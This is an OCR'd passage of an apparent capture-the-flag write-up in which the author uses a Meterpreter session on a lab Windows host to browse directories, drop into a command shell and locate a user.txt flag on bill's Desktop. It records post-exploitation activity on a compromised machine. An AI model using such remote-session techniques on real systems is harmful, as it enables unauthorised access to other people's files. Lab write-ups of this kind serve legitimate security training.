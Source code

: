 meterpreter >

#I tried looking for the user.txt file:
meterpreter > ls
Listing: C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
====================================================================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   4096    dir   2022-02-01 13:42:29 -0500  %TEMP%
100666/rw-rw-rw-  174     fil   2019-09-27 07:07:07 -0400  desktop.ini
100777/rwxrwxrwx  760320  fil   2019-09-27 05:24:35 -0400  hfs.exe

meterpreter > pwd
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
meterpreter > find / -name user.txt
[-] Unknown command: find
meterpreter >
#but the command did not work
#now the hihnt hinted to the directory 'C:\USers\bill\Desktop' so I went there:
#(had to do 'cd ..' x6...
meterpreter > cd Desktop
meterpreter > ls
Listing: C:\Users\bill\Desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-09-27 07:07:07 -0400  desktop.ini
100666/rw-rw-rw-  70    fil   2019-09-27 08:42:38 -0400  user.txt

#when trying to cat the file I got some weird output, and I reliased I had not yet initialised a proper shell.. so I continued with:
meterpreter > shell
Process 2756 created.
Channel 3 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\Desktop>ls
ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

C:\Users\bill\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users\bill\Desktop

09/27/2019  08:08 AM    <DIR>          .
09/27/2019  08:08 AM    <DIR>          ..
09/27/2019  04:42 AM                70 user.txt
               1 File(s)             70 bytes
               2 Dir(s)  44,155,367,424 bytes free
